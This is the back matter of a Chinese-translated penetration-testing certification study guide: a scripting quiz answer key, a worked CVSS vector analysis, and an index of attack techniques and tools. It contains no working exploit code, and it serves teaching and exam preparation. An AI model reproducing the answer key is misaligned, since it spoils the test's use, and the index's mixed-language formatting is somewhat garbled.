10. C. 除其他特征外，用于错误处理的 `rescue` 关键字是 Ruby 所独有的。

11. B. Bash 和 PowerShell 允许直接连接字符串和数值。Ruby 和 Python 在连接前需要将数值显式转换为字符串。

12. D. Ruby 脚本中可以包含的 `elsif` 子句数量没有限制。

13. B. 使用条件执行时，只执行一个子句。在这种情况下，`if` 子句后面的代码将执行，因此 `elif` 或 `else` 子句无法执行。

14. B. 使用 Figure 12.6 中的流程图回答此问题。代码包含 `Do` 语句，因此是用 PowerShell 编写的。

15. D. 使用 Figure 12.4 中的流程图回答此问题。代码包含 `fi` 语句，因此是用 Bash 编写的。

16. C. 使用 Figure 12.5 中的流程图回答此问题。代码包含冒号，因此是用 Python 编写的。

17. D. `nc` 命令允许你打开一个网络端口进行监听，然后将该端口接收到的输入定向到文件或可执行文件。

18. D. PowerShell、Python 和 Ruby 都支持 `try..catch` 子句的变体。Bash 不提供内置的错误处理功能。

19. C. `%26` 值用于使用百分号编码方案对和号进行 URL 编码。

20. B. `‐ge` 运算符用于测试 Bash 和 PowerShell 中一个值是否大于或等于另一个值，而 `‐gt` 运算符用于测试一个值是否严格大于另一个值。`>=` 和 `>` 运算符用于 Ruby、Perl 和 Python，用于相同的目的。

WileyPRE

# Appendix B  

## Solution to Lab Exercise

### Solution to Activity 5.2: Analyzing a CVSS Vector

图 5.22 中所示 IKE 漏洞的 CVSS 向量为 `CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`。逐项分析可得以下结果：

*   `AV:N` 表示攻击者可以通过网络远程利用该漏洞。这是该指标最严重的值。

*   `AC:L` 表示利用该漏洞不需要任何特殊条件。这是该指标最严重的值。

*   `PR:N` 表示攻击者不需要任何经过身份验证的权限。这是该指标最严重的值。

*   `UI:N` 表示利用该漏洞不需要用户交互。

*   `S:U` 表示利用此漏洞获得的访问权限仅限于受损组件的控制范围。

*   `C:L` 表示成功利用此漏洞将产生部分信息访问权限。这是该指标的中间值。

*   `I:N` 表示成功利用此漏洞将不允许未经授权的信息修改。这是该指标最不严重的值。

*   `A:N` 表示成功利用此漏洞将没有可用性影响。这是该指标最不严重的值。

基于此 CVSS 分析，图 5.23 中的第一个漏洞更严重。它们的 CVSS 向量相同，除了完整性指标，SSL 漏洞的该指标更高。

WileyPRE

# Index

*   `A`

*   access, to accounts, 43–44

*   access control, broken, as a top security risk, 339

*   account access, 43–44

*   account takeover, 379–380

*   Actions on Objectives phase, of Cyber Kill Chain, 16

*   active reconnaissance 

    *   defenses against, 100

    *   enumeration and, 78–99

*   active vulnerability scanning, 120

*   Address Resolution Protocol (ARP), 90

*   Address Resolution Protocol (ARP) spoofing and poisoning, 251–252

*   administrative controls, 411

*   advanced data structures, 474–475

*   *Advanced Penetration Testing: Hacking the World's Most Secured Networks* (Allsopp), 233

*   advanced persistent threats (APTs), 36–37

*   AFRINIC, 68

*   Aircrack‐ng, 23, 275

*   alarms, 294

*   `alert()` function, 437

*   Allsopp, Wil (author) 

    *   *Advanced Penetration Testing: Hacking the World's Most Secured Networks,* 233

*   Alteration, in DAD triad, 3

*   american fuzzy lop (AFL), 344, 345

*   amplification attacks, 274–275

*   analyzing code, 476

*   Android SDK tools, 388

*   antimalware, 87

*   antivirus (AV), 87

*   APK Studio, 346, 389

*   APKX, 346, 389

*   APNIC, 68

*   appendix, in reports, 420

*   Apple Remote Desktop, 220

*   application programming interfaces (APIs) 

    *   enumeration and, 95

    *   unprotected, 337–338

*   application testing tools 


# B

* 后门，229–230
* 钓饵攻击，297
* 裸机虚拟化，182
* 基础分，161–162
* `Bash scripts`, 432
* BGP looking glasses, 74
* 绑定 shell，229, 398–399
* 生物识别身份验证，369, 386, 415
* 黑盒测试，36, 99
* 盲 SQL 注入，316
* BloodHound, 213
* Bluejacking, 274
* Bluesnarfing, 274
* Bluetooth 攻击，274
* Bluetooth Low Energy (BLE) 攻击，274, 390
* 布尔盲 SQL 注入攻击，317–318
* Bourne‐again shell (`Bash`) 
    * 关于，432–433
    * 中的比较运算符，444
    * 错误处理，472
    * 流程控制，453–454
    * `for` 循环，460
    * 中的字符串运算符，446–447
    * 中的变量、数组和替换，439–440
    * `while` 循环，465–467
* Brakeman, 22
* 泄露数据，77–78
* 贿赂，297
* 浏览器利用框架 (`BeEF`), 22, 300–302, 305
* 暴力破解攻击，268, 280, 304–305, 371
* Brutus, 224
* 预算，44
* 缓冲区溢出攻击，169
* Burp Proxy, 343
* Burp Suite, 137, 387
* 业务逻辑漏洞，387

# C

* `cachedump`, 368–369
* Cain and Abel, 22, 223, 371
* 来电显示伪造，297, 302
*  captive portals 攻击，270–271
* 捕获握手，270
* 持卡人数据环境 (`CDEs`), 7–8
* Censys, 20, 64, 75–76
* 证书颁发机构 (`CA`), 178
* 证书枚举，95
* 证书检查，95
* 证书固定，43, 386
* CeWL, 22, 372
* 变更管理，作为漏洞扫描的障碍，143
* `chmod` 命令，432–433
* CIA 三要素，2–3
* 密码，不安全的使用，176–177
* Clark, Ben 
    * `Red Team Field Manual (RTFM)`, 88
* 类，475–476
* 明文通信，390
* 点击劫持，335
* 客户验收，421
* 克隆网站，298
* 云资产发现，97
* Cloud Custodian, 25, 384
* 云恶意软件注入攻击，382
* 云服务，78
* 云技术 
    * 关于，359, 379, 393–394
    * 攻击，379–384
    * 考试要点，395–396
    * 实验练习，396–399
    * 复习问题，400–403, 503–505
    * 工具，25
* CloudBrute, 25, 97, 383
* Coagula, 24, 341
* 代码 
    * 分析，13, 97–99, 131–133, 476
    * 在 CompTIA 渗透测试流程中，13
    * 信息收集与，97–99
    * 重用，475–476
    * 在渗透测试中的作用，476–477
    * 签名，338
    * 测试，131–133
    * 理解 (*See* `static code analysis`)
    * 不安全的做法，335–339
* 代码注入攻击，319
* Command and Control 阶段，Cyber Kill Chain 中，16
* 命令注入攻击，319–320
* 逗号分隔值 (`CSV`) 文件，472


# 常见配置枚举 (CCE)
130

# 常见平台枚举 (CPE)
130

# 常见漏洞与披露 (CVE)
64, 130

# 常见漏洞评分系统 (CVSS)
## 关于
131, 156

## 分析向量
186–187

## 攻击复杂度度量
156

## 攻击向量度量
156

## 可用性度量
158

# 机密性度量
157–158

## 完整性度量
158

## 解释向量
159

## 所需权限度量
157

## 范围度量
159

## 分数汇总
160–162

## 用户交互度量
157

# 常见弱点枚举 (CWE)
64

# 通信
*参见* 报告和通信

# 比较运算符
444

# 编译型语言
434

# 基于合规性的评估
35

# CompTIA 渗透测试流程
10–13

# 计算机滥用法 (CMA)
48–49

# 报告中的结论
419–420

# CIA 三元组中的机密性
2–3

# 保密协议 (CA)
46–47

# 机密性度量
157–158

# 配置文件
79

# 配置管理系统
164

# 容器化
## 攻击
377–378

## 可视化和
126, 375

# 持续监控
140

# 合同
46–47

# 控制管理系统
79

# Cookie
322–326

# Core Security Impacket Python 库
92

# 企业策略与漏洞扫描
116

# Covenant
23, 345

# 隐蔽通道
230

# CrackMapExec
24, 215–216

# `creddump` 包
368–369

# 凭据获取
368–369

# 凭据收集
379

# 凭据测试
22, 371

# 带凭据扫描
127

# 凭据
## 获取
365–367

## 存储
367–368

## 测试工具与攻击
368–372

# cron 任务
216–217

# 交叉编译
225

# 跨平台漏洞利用
367–368

# 跨站请求伪造 (CSRF/XSRF)
334–335

# 跨站脚本 (XSS) 攻击
## 关于
186, 331–334

## 创建
348

## 作为主要安全风险
339

# 晶盒测试
35–36

# 客户承诺，作为漏洞扫描的障碍
142

# 网络杀伤链
## 关于
14–15

## 阶段
15–16

# CyberArk
378

# 网络安全目标
2–3

# DAD 三元组
3

# 守护进程
229

# 数据
## 攻击存储
392–393

## 所有权与保留
47

## 保留或销毁
422

# 数据损坏攻击
270

# 数据外泄
230

# 数据修改攻击
269

# 数据库漏洞扫描
138

# 取消身份验证攻击
270

# 调试模式
174–175

# 调试器/调试
22–23, 98–99, 344–345

# 反编译
98

# 默认账户设置
368

# 防御与信息收集
99–100

# 交付阶段，网络杀伤链
16

# 拒绝，DAD 三元组
3

# 拒绝服务 (DoS) 攻击
255–256, 382

# 数据销毁
422

# 检测，规避
99

# Deviant Ollam
292

# 字典
371–372

# 字典攻击
225, 268

# 数字证书问题
177–178

# 数字生活网络联盟 (DLNA)
393

# DirBuster 工具
22, 330, 372

# 不安全的直接对象引用
327–328

# 目录
372

# 目录遍历
328–330

# 直接到源 (D2O) 攻击，云和
382

# Dirty COW
169–170

# 披露，DAD 三元组
3

# 发现
97, 235–236

# 报告处置
420

# Docker
377–378

# 文档，作为支持资源
42

# 记录的例外
162–163

# 域名系统 (DNS)
## 关于
68, 70–71

## 放大
179–180

## 攻击
219

## 缓存投毒
249–251

## 欺骗
249–251

## 漏洞
178–180

# 文档对象模型 (DOM)
334

# 域名注册商
68

# 域
68

# 下载文件
476

# Drozer
346, 388

# Dyn
183–184

# 动态应用安全测试 (DAST)
342–346

# 动态代码分析
132

# EAPHammer
23

# 窃听
87–88, 269, 271–275, 323

# `echo` 命令
432

# 802.1Q 中继
248

# 电子文档
66–67

# 电子邮件地址
90–91

# 嵌入式系统攻击
389–392

# 紧急联系人
409

# Empire
24

# 员工数据
67–68

# 终端漏洞
166–175

# 接入
## 结束
421–422

## 范围和规划领域
34–44

# 绕过入口控制系统
292–293

# 枚举
## 关于
90, 199, 476

## 主动侦察和
78–99


# APIs

*   APIs 和，95
*   应用程序和，94
*   证书，95
*   指纹识别和，94–95
*   足迹分析和，63–78
*   森林，200
*   组，200
*   接口和，95
*   被动，78
*   敏感数据，200
*   服务器和，93–94
*   共享和，92
*   令牌和，95–96
*   未加密文件，201
*   URLs 和，93–94
*   用户，90–92, 199–200
*   网页和，93–94

# environmental differences

*   环境差异，48–49

# error handling

*   错误处理
    *   关于，336, 472
    *   Bash，472
    *   PowerShell，473
    *   Python，473–474
    *   Ruby，473

# ethical hacking

*   道德黑客，5

# Ettercap

*   Ettercap，388

# evasion, persistence and

*   逃避、持久性和，228–231

# evil twins

*   邪恶双胞胎，271–275

# exam essentials

*   考试要点
    *   应用程序漏洞，347
    *   云技术，395–396
    *   漏洞利用，234
    *   主机，395–396
    *   信息收集和漏洞扫描领域，101–102
    *   网络漏洞，279
    *   渗透测试，25–26
    *   物理和社会漏洞，303
    *   转发，234
    *   规划和范围界定领域，52–53
    *   报告和沟通，423–424
    *   脚本，477–478
    *   专用系统，395–396
    *   漏洞扫描，143–144, 187–188

# executive summary

*   执行摘要，在报告中，417

# exploit chaining

*   漏洞利用链，257

# Exploit Database

*   漏洞数据库，204

# Exploit DB

*   漏洞数据库，247

# exploitability score

*   漏洞利用评分，160–161

# Exploitation phase

*   利用阶段，在网络杀伤链中，16

# exploits

*   漏洞利用
    *   关于，233–234, 235
    *   攻击和，198–205
    *   在 CompTIA 渗透测试流程中，12–13
    *   掩盖痕迹，232
    *   考试要点，234
    *   识别，201–203, 247
    *   实验练习，235–236
    *   利用，222–228
    *   网络（*参见* 网络漏洞)
    *   持久性和逃避，228–231
    *   资源，204–205
    *   复习问题，237–241, 495–497
    *   特定内容，213–222
    *   工具包，206–213
    *   工具，24

# Export Administration Regulations (EAR)

*   出口管理条例 (EAR)，49

# Extensible Configuration Checklist Description Format (XCCDF)

*   可扩展配置检查表描述格式 (XCCDF)，131

# external penetration testing teams

*   外部渗透测试团队，9–10

# F

# facial recognition

*   人脸识别，386

# false positive error

*   误报错误，162

# Federal Information Security Management Act (FISMA)

*   联邦信息安全管理法 (FISMA)，113, 114–116

# Fern

*   Fern，23, 276

# file inclusion attacks

*   文件包含攻击，330–331

# File Transfer Protocol (FTP)

*   文件传输协议 (FTP)，174, 265

# fileless malware

*   无文件恶意软件，215–216

# filename brute‐forcing

*   文件名暴力破解，372

# files

*   文件
    *   下载，476
    *   不安全，367

# FindBugs

*   FindBugs，342

# findings and remediation

*   发现和修复，在报告中，419

# findsecbugs

*   findsecbugs，342

# fingerprinting

*   指纹识别，枚举和，94–95

# Fingerprinting Organizations with Collected Archives (FOCA)

*   基于收集档案的组织指纹识别 (FOCA)，20, 66–67

# FIPS

*   FIPS 140‐2, 51

# firewalls

*   防火墙，87

# firmware vulnerabilities

*   固件漏洞，171, 176

# first party hosted targets

*   第一方托管目标，39

# flow control

*   流程控制
    *   关于，452
    *   Bash，453–454
    *   条件执行，453
    *   JavaScript，457–458
    *   条件执行语句的语言，458
    *   `for` 循环，458–464
    *   Perl，457
    *   PowerShell，454–455
    *   Python，456
    *   Ruby，455–456
    *   `while` 循环，465–470

# folder permissions

*   文件夹权限，不安全，367

# follow‐up actions/retesting

*   后续操作/重新测试，422

# footprinting

*   足迹分析，枚举和，63–78

# `for` loops

*   `for` 循环
    *   关于，458–460
    *   Bash，460
    *   识别语言，463–464
    *   JavaScript，463
    *   Perl，462–463
    *   PowerShell，461
    *   Python，462
    *   Ruby，461–462

# forests

*   森林，枚举和，200

# fragile systems

*   脆弱系统，124–125

# frequency

*   频率，漏洞扫描的，118–120

# Frida

*   Frida，388

# Friedl, Steve

*   Friedl, Steve，250

# functions

*   函数，476

# fuzz testing/fuzzing

*   模糊测试/模糊测试，133

# fuzzing

*   模糊测试，343–344

# G

# General Data Protection Regulation (GDPR)

*   通用数据保护条例 (GDPR)，50

# generic top‐level domain (gTLD)

*   通用顶级域 (gTLD)，68

# Glassdoor

*   Glassdoor，94

# GNU Debugger (GDB)

*   GNU 调试器 (GDB)，22, 344

# goals

*   目标，重新优先级排序，410–411

# goals‐based assessments

*   基于目标的评估，35

# Gobuster

*   Gobuster，345–346

# Google Hacking Database (GHDB)

*   Google 黑客数据库 (GHDB)，77

# Gramm‐Leach‐Bliley Act (GLBA)

*   格拉姆-莱奇-布里利法案 (GLBA)，51, 112

# gray box tests

*   灰盒测试，36

# groups

*   组，92, 200

## H

# hacker mindset

*   黑客思维，采用，4–5

# hacking

*   黑客攻击，道德，5

# handshakes

*   握手，捕获，270

# hard‐coded configurations

*   硬编码配置，390

# hard‐coded credentials

*   硬编码凭据，336–337

# hardware flaws

*   硬件缺陷，171–173

# harvested credentials

*   收集的凭据，365

# hash cracking

*   哈希破解，268

# Hashcat

*   Hashcat，22, 370, 397–398

# hashes

*   哈希
    *   获取和使用，365–366


# 索引

## H

* capturing, 279–280

* Health Insurance Portability and Accountability Act (1996), 50–51, 112

* `HighOn.Coffee Penetration Testing Tools Cheat Sheet`, 88

* horizontal escalation attacks, 226

* hosted virtualization, 182

* hosts 

    * about, 359, 393–394

    * attacking, 360–368

    * credential attacks and testing tools, 368–372

    * enumerating, 79

    * exam essentials, 395–396

    * lab exercises, 396–399

    * real world scenario, 359–360

    * remote access, 372–374

    * review questions, 400–403, 503–505

    * virtual machines and containers, 374–378

* Hping, 23, 89, 256

* HttpFox, 137

* hunter.io, 76

* Hydra, 22, 371

* hypervisor, 181, 376–377

## I

* identity and access management (IAM), 380

* Immunity Debugger, 22, 344

* Impacket, 24

* Impacket Python libraries, 92

* impact score, 160

* impact sub‐score (ISS), 160

* impersonation attacks, 296

* industrial control systems (ICSs), 183, 389–392

* Inetd, 228

* Information Gathering and Vulnerability Scanning domain 

    * about, 63, 100–101

    * active reconnaissance and enumeration, 78–99

    * in CompTIA penetration testing process, 11–12

    * defenses and, 99–100

    * exam essentials, 101–102

    * footprinting and enumeration, 63–78

    * lab exercises, 102–103

    * for physical facility penetration testing, 294

    * real world scenario, 63, 65, 85

    * review questions, 104–107, 489–491

* `Information Supplement: Penetration Testing Guidance`, 8

* Information Systems Security Assessment Framework (ISSAF), 46

* informational results, 163–164

* infrastructure, data and, 68–74

* injection attacks 

    * about, 184–185

    * code, 319

    * command, 319–320

    * input validation, 314

    * Lightweight Directory Access Protocol (LDAP), 320

    * parameter pollution, 315

    * SQL, 316–319

    * web application firewalls (WAFs), 315–316

* injection flaws, as a top security risk, 339

* in‐person social engineering, 294–297

* input and output (I/O), 471–472

* input validation, 314

* input whitelisting, 314

* insecure defaults, 390

* insecure deserialization, as a top security risk, 339

* inspection 

    * certificate, 95

    * packet, 88–90

* Installation phase, of Cyber Kill Chain, 16

* integer overflow, 169

* integrated development environments (IDEs), 99

* Integrity, in CIA triad, 2–3

* integrity metric, 158

* Intelligent Platform Management Interface (IPMI), 392

* Interactive Disassembler (IDA), 22, 345

* interception proxies, 342–343

* interfaces, enumeration and, 95

* internal penetration testing teams, 8–9

* Internet Archive, 67

* Internet Assigned Numbers Authority (IANA), 68

* Internet of Things (IoT) 

    * attacking, 389–392

    * vulnerabilities with, 183–184

* interpreted code, 98

* interpreted language, 434

* interrogation and interview tactics, 296

* IP addresses, 73–74, 180, 181

* IP ranges, 73–74

* IT governance, as a barrier to vulnerability scanning, 143

* IT service management (ITSM), 139

## J

* Jamf Pro, 79

* jamming, 270, 277

* JavaScript 

    * about, 436–438

    * comparison operators in, 444

    * flow control, 457–458

    * `for` loops, 463

    * string operators in, 451–452

    * variables arrays and substitutions in, 442–444

    * `while` loops, 469

* JavaScript Object Notation (JSON), 474

* John the Ripper, 22, 224, 370

* JSON Web Tokens (JWTs), 95–96

## K

* Kali Linux, 204, 206, 271, 361–365

* Kaminsky, Dan, 250

* KARMA Attacks Radio Machines Automatically (KARMA), 271

* Kerberoasting, 266–267

* Kerberos exploits, 326–327

* Kismet, 23, 87, 276

* known environment tests, 35–36

* known vulnerable components, 386

* Kubernetes, 377–378

* Kumu, 92

## L

* lab exercises 

    * application vulnerabilities, 347–348

    * cloud technologies, 396–399

    * exploits, 235–236

    * hosts, 396–399

    * Information Gathering and Vulnerability Scanning domain, 102–103

    * network vulnerabilities, 279–281

    * penetration testing, 26

    * physical and social vulnerabilities, 303–305

    * pivoting, 235–236

    * Planning and Scoping domain, 53

    * reporting and communication, 424

    * scripting, 478–479

    * specialized systems, 396–399

    * vulnerability scanning, 144–145, 188–189

* LACNIC, 69

* leaked keys, 222

* legal concepts, 46–49

* lessons learned session, 421–422


* `leveraging exploits`, 222–228

* `libraries`, 476

* `lighting`, for security, 294

* `Lightweight Directory Access Protocol (LDAP ) injection attacks`, 320

* `Link Local Multicast Name Resolution (LLMNR)`, 260

* `Linux kernel`, 364

* `Linux Samba exploits`, 267–268

* `living off the land`, 215–216

* `load balancer detection`, 86–87

* `load testing`, 269

* `local administrator credentials`, 412–413

* `local file inclusion attacks`, 330

* `location data`, 65–68

* `location restrictions`, 48–49

* `Lockheed Martin`, 14

* `locks, bypassing`, 292–293

* `The LockWiki`, 292

* `logging, insufficient`, 339

* `logs`, 164

* `ls` command, 381

* `LSA secrets Registry`, 366

* `lsadump`, 368–369

# M

* `Maltego`, 20

* `malware, fileless`, 215–216

* `management interface, vulnerabilities with`, 182

* `man‐in‐the‐middle attacks`, 324

* `master service agreement (MSA)`, 46

* `mdk4`, 23, 275–276

* `Media Access Control (MAC) spoofing`, 252–253

* `Medusa`, 22, 371

* `Meltdown`, 172

* `memorandum of understanding (MOU)`, 142

* `metadata`, 66–67

* `Metagoofil`, 24, 341

* `Metasploit`, 24, 91, 206–212, 229, 230–231, 373–374

* `Metasploitable`, 199, 205, 267

* `Meterpreter`, 211–212, 229, 230–231, 373

* `methodologies`, 44–46, 418

* `Mimikatz`, 22, 212–213, 223, 365, 368

* `Mirai`, 184

* `misconfigured cloud assets`, 380–381

* `missing patch vulnerability`, 166–167

* `mitigation strategies`

    * `about`, 411–412

    * `local administrator credentials`, 412–413

    * `multifactor authentication`, 414–416

    * `open services`, 416

    * `password complexity`, 413–414

    * `plaintext passwords`, 414

    * `SQL injection`, 416

* `Mitm6 tool`, 24, 219

* `MITRE ATT&CK Framework`, 44–45

* `mobile device management (MDM)`, 167

* `mobile devices`

    * `attacking`, 384–389

    * `security of`, 167

* `mobile tools`, 346

* `MobSF`, 387

* `modules`, 476

* `motion sensors`, 294

* `multifactor authentication`, 414–416

# N

* `National Institute of Standards and Technology (NIST)`, 45

* `National Vulnerability Database (NVD)`, 205

* `Ncat`, 23, 373

* `near‐field communication (NFC)`, 274–275

* `Needle`, 388

* `Nessus`, 21, 122, 136, 153

* `net` commands, 260–261

* `NetBIOS name resolution exploits`, 257–258

* `Netcat`, 23, 94, 229, 373

* `Network Access Control (NAC) bypass`, 254–255

* `Network Address Translation (NAT) protocol`, 180

* `network logs`, 79

* `network scans`, 125–127

* `network segmentation`, 221–222

* `network testing tools`, 23

* `network topology`, 85–86

* `network vulnerabilities`

    * `about`, 246, 278–279

    * `common services`, 261–269

    * `conducting exploits`, 247–257

    * `exam essentials`, 279

    * `exploiting Windows services`, 257–261

    * `identifying exploits`, 247

    * `lab exercises`, 279–281

    * `real world scenario`, 246–247, 262

    * `review questions`, 282–286, 497–499

    * `wireless exploits`, 269–278

* `networks`

    * `data and`, 68–74

    * `detecting defenses`, 86–87

    * `vulnerabilities with`, 175–181

* `New Technology LAN Manager (NTLM)`, 254

* `Nikto`, 21, 135

* `NIST Special Publication 800‐53`, `Security and Privacy Controls for Federal Information Systems and Organizations,` 115–116

* `Nmap`, 21, 83–84, 99, 479

* `noncompete agreements`, 47

* `nondisclosure agreements (NDAs)`, 46–47

* `NotSoSecure`, 378

* `nslookup`, 70–71

* `Nslookup tools`, 20

* `NT LAN Manager (NTLM)`, 365

# O

* `object storage`, 381

* `Objection`, 388

* `objectives‐based assessments`, 35

* `offline password cracking`, 369–371

* `OllyDbg`, 22, 345

* `ongoing scanning`, 140

* `online SSL checkers`, 23

* `on‐path attacks`, 251–254, 270, 271–275, 324

* `on‐site assessment`, 246–247

* `open services, reporting and communication`, 416

* `open source intelligence (OSINT)`

    * `about`, 64

    * `Common Vulnerabilities and Exposures (CVE)`, 64

    * `Common Weakness Enumeration (CWE)`, 64

* `Open Source Security Testing Methodology Manual (OSSTMM)`, 45

* `Open Steg`, 24

* `Open Vulnerability and Assessment Language (OVAL)`, 131

* `Open Web Application Security Project (OWASP)`, 45, 338–339, 342

* `OpenStego`, 341

* `The Open Organisation of Lockpickers (TOOOL)`, 292

* `OpenVAS`, 21

* `operating systems`

    * `fingerprinting`, 81

    * `unsupported`, 168–169


## P

*   operational controls, 411
*   organizational data, 65–68
*   `OWASP Password Storage Cheat Sheet`, 225
*   packet capture, 87–88
*   packet crafting, 88–90
*   packet inspection, 88–90
*   Packet Storm, 247
*   Pacu, 25, 383
*   parameter pollution, 315
*   partial knowledge tests, 36
*   passcode vulnerabilities, 385
*   passive enumeration, 78
*   passive information gathering, defenses against, 100
*   passive vulnerability scanning, 120
*   pass‐the‐hash attacks, 365
*   password attacks, 268–269
*   password dumps, 77–78
*   password spraying, 268
*   passwords
    *   authentication of, 321
    *   complexity of, 413–414
    *   cracking, 397–398
    *   plaintext, 414
*   Patator, 22, 371
*   patching fragmentation, 386
*   path, communication, 409–410
*   Payment Card Industry Data Security Standard (PCI DSS), 7–8, 33–34, 49–50, 113, 173, 221
*   PeachFuzzer, 343–344
*   penetration testing
    *   about, 2–5, 25
    *   automating, 477
    *   benefits of, 6
    *   CompTIA process for, 10–13
    *   designing physical, 303–304
    *   developing a plan for, 187
    *   exam essentials, 25–26
    *   lab exercises, 26
    *   physical facility, 290–294
    *   reasons for, 5–8
    *   regulatory requirements for, 7–8
    *   remediation workflow and, 139–140
    *   review questions, 27–30, 486–487
    *   scripting and, 431–438
    *   support for, 116
    *   support resources for, 42–44
    *   tools for, 17–25
    *   vulnerability scanning and, 145
    *   who performs, 8–10
    *   writing a report, 416–420
*   Penetration Testing Execution Standard (PTES), 34, 45
*   percent‐encoding, 445
*   perimeter defenses/barriers, bypassing, 293
*   Perl
    *   about, 435–436
    *   comparison operators in, 444
    *   flow control, 457
    *   `for` loops, 462–463
    *   string operators in, 450–451
    *   variables arrays and substitutions in, 442
    *   `while` loops, 469
*   permission, 38
*   permission to attack (authorization), 47–48
*   persistence, evasion and, 228–231
*   phishing attacks, 289, 297–298
*   physical and social vulnerabilities
    *   about, 302–303
    *   exam essentials, 303
    *   lab exercises, 303–305
    *   physical facility penetration testing, 290–294
    *   real world scenarios, 289
    *   review questions, 306–309, 499–501
    *   social engineering, 294–302
*   physical controls, 411
*   piggybacking, 290–291
*   pivoting
    *   about, 231–232, 233–234, 236
    *   covering your tracks, 232
    *   exam essentials, 234
    *   lab exercises, 235–236
    *   review questions, 237–241, 495–497
*   plaintext passwords, 414
*   Planning and Scoping domain
    *   about, 33, 51–52
    *   in CompTIA penetration testing process, 11
    *   engagements, 34–44
    *   exam essentials, 52–53
    *   lab exercises, 53
    *   legal concepts, 46–49
    *   real world scenario, 33–34
    *   regulatory compliance, 49–51
    *   review questions, 54–57, 487–489
    *   standards and methodologies, 44–46
*   plug‐in feeds, vulnerability, 130
*   point‐of‐sale (POS) systems, 173
*   ports, common, 80–81
*   PortSwigger, 343
*   post‐engagement cleanup, 421
*   post‐exploit attacks, 222–225
*   Postman, 387
*   PowerShell (PS)
    *   about, 214, 433–434
    *   comparison operators in, 444
    *   error handling, 473
    *   flow control, 454–455
    *   `for` loops, 461
    *   string operators in, 447–448
    *   variables arrays and substitutions in, 440–441
    *   `while` loops, 467
*   PowerSploit, 24, 212–213
*   presumption of compromise, 6
*   pretexting, 290, 296
*   primary contact, 409
*   privilege escalation attacks, 169–170, 226, 331, 379–380
*   privileges required metric, 157
*   procedures, 476
*   protocols, insecure use of, 174
*   proxies, 374
*   Proxychains, 24
*   `proxychains` command, 374
*   PuTTY, 367–368
*   `pwdump`, 368–369
*   PxExec, 214
*   Python
    *   about, 435
    *   comparison operators in, 444
    *   error handling, 473–474
    *   flow control, 456
    *   `for` loops, 462
    *   string operators in, 449–450
    *   variables arrays and substitutions in, 441–442
    *   `while` loops, 468–469

## Q

*   Qualys, 117, 122, 142, 324–325
*   quid pro quo attacks, 296

## R

*   race conditions, 337
*   rainbow tables, 225
*   RainbowCrack, 370
*   Rapid7


* about, 392
* Metasploitable 虚拟机, 84
* 漏洞与利用数据库, 205
* 实时操作系统 (RTOSs), 183
* RealVNC, 367–368
* Reaver, 23, 273
* 侦察阶段
    * 网络杀伤链中的, 15
    * 用于的工具, 20
* Recon‐ng, 20, 74
* 红队现场手册 (RTFM) (Clark), 88
* 未验证的重定向, 326
* 红队评估, 35
* 反射型 XSS, 332
* 注册端口, 79–80
* 法规合规性, 49–51, 112–116
* 关系, 92
* 中继攻击, 254, 270
* 修复工作流
    * 关于, 138–140
    * 优先级排序, 140–141
    * 策略, 424
    * 测试和实施修复, 141
* 远程访问
    * 关于, 372
    * 启动, 476
    * Metasploit, 373–374
    * Ncat, 373
    * Netcat, 373
    * 代理, 374
    * `proxychains` 命令, 374
    * 安全外壳 (SSH), 372–373
    * 用于的工具, 23–24
* 远程代码执行漏洞, 170
* 远程文件包含攻击, 331
* 远程过程调用/分布式组件对象模型 (RP/DCOM), 213–214
* 重复流量, 277–278
* 重放攻击, 253–254, 323
* 报告与沟通
    * 关于, 408, 423
    * 在 CompTIA 渗透测试流程中, 13
    * 项目, 421–422
    * 考试要点, 423–424
    * 沟通的重要性, 409–411
    * 实验练习, 424
    * 缓解策略, 411–416
    * 现实世界场景, 408, 413–414
    * 复习问题, 425–427, 505–506
    * 漏洞扫描, 153–155
    * 编写渗透测试报告, 416–420
    * 编写报告, 424
* 表述性状态传输 (REST), 338
* 声誉, 94
* 请求伪造, 334–335
* 资源耗尽攻击, 382
* Responder, 24, 259–260
* 受限 shell, 363
* 限制, 发现和, 97
* 受限 shell, 升级, 228
* 保留, 数据的, 422
* 反向 DNS 查找, 478
* 逆向工程, 在移动设备上, 384–385
* 反向 shell, 229, 398–399
* 复习问题
    * 应用程序漏洞, 349–353, 501–502
    * 云技术, 400–403, 503–505
    * 利用, 237–241, 495–497
    * 主机, 400–403, 503–505
    * 信息收集和漏洞扫描领域, 104–107, 489–491
    * 网络漏洞, 282–286, 497–499
    * 渗透测试, 27–30, 486–487
    * 物理和社会漏洞, 306–309, 499–501
    * 跳板, 237–241, 495–497
    * 规划和范围界定领域, 54–57, 487–489
    * 报告与沟通, 425–427, 505–506
    * 脚本, 480–484, 506–507
    * 专用系统, 400–403, 503–505
    * 漏洞扫描, 146–149, 190–193, 491–494
* RFID 克隆, 276–277
* RIPE, 69
* 风险偏好, 119
* `robots.txt` 文件, 93
* 非法无线接入点, 23
* rootkits, 170
* 路由, 74
* Ruby
    * 关于, 434–435
    * 中的比较运算符, 444
    * 错误处理, 473
    * 流程控制, 455–456
    * `for` 循环, 461–462
    * 中的字符串运算符, 448–449
    * 中的变量数组和替换, 441
    * `while` 循环, 467–468
* 接触规则 (RoE), 37–39
* S
* Samba (SMB) 共享, 92
* 沙箱分析, 在移动设备上, 385
* Sarbanes‐Oxley 法案 (SOX), 51
* 扫描视角, 127–128
* 扫描器软件, 129
* 扫描器, 345–346
* Scapy, 89
* 计划作业/任务, 228
* 计划任务, 216–217
* 范围蔓延, 41, 121–122
* 报告中的范围详情, 418
* 范围度量, 159
* 范围界定
    * 在 CompTIA 渗透测试流程中, 11
    * 考虑因素, 39–41
* ScoutSuite, 25, 383
* 脚本
    * 关于, 98, 431, 477
    * 高级数据结构, 474–475
    * 数组, 438–444
    * 比较运算符, 444
    * 错误处理, 472–474
    * 考试要点, 477–478
    * 流程控制, 452–470
    * 输入和输出 (I/O), 471–472
    * 实验练习, 478–479
    * 渗透测试与, 431–438
    * 现实世界场景, 431
    * 重用代码, 475–476
    * 复习问题, 480–484, 506–507
    * 编码在渗透测试中的作用, 476–477
    * 字符串运算符, 445–452
    * 替换, 438–444
    * 变量, 438–444
* 搜索引擎技术, 77


# 索引

## SearchSploit
24, 204

## secure handling
of reports, 420

## Secure Shell (SSH)
- about, 23, 174, 220–221
- exploits, 267–268
- remote access and, 372–373

## Secure Sockets Layer (SSL)
- about, 71–72
- issues with, 176–178
- online checkers, 324–325

## SecureAuth
218

## Security Accounts Manager (SAM) database
366–367, 396–397

## Security Content Automation Protocol (SCAP)
